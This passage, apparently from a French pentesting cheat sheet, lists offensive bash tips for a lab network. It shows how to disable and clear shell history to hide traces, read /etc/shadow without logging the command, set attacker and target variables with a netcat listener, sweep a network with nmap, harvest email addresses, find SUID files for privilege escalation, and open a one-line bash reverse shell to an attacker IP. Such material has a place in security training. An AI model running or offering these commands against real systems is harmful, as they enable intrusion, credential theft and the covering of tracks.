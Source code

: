 
## 🎯 Astuces Pratiques

### Historique Bash

```bash
# Désactiver l'historique (ne pas laisser de traces)
unset HISTFILE

# Effacer l'historique
history -c

# Ne pas enregistrer une commande (ajouter un espace au début)
 cat /etc/shadow
```

### Variables d'Environnement

```bash
# IP de l'attaquant
export LHOST=192.168.100.10

# IP de la cible
export RHOST=192.168.100.20

# Port
export LPORT=4444

# Utilisation
nc -lvnp $LPORT
```

### One-Liners Utiles

```bash
# Scanner un réseau et afficher les IPs actives
nmap -sn 192.168.100.0/24 -oG - | grep "Up" | cut -d' ' -f2

# Extraire tous les emails d'un fichier
grep -Eiorh "[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}" file.txt

# Trouver tous les fichiers SUID
find / -perm -4000 -ls 2>/dev/null

# Reverse shell en une ligne
bash -c 'bash -i >& /dev/tcp/192.168.100.10/4444 0>&1'
```

---

## 🔗 Ressources Supplémentaires
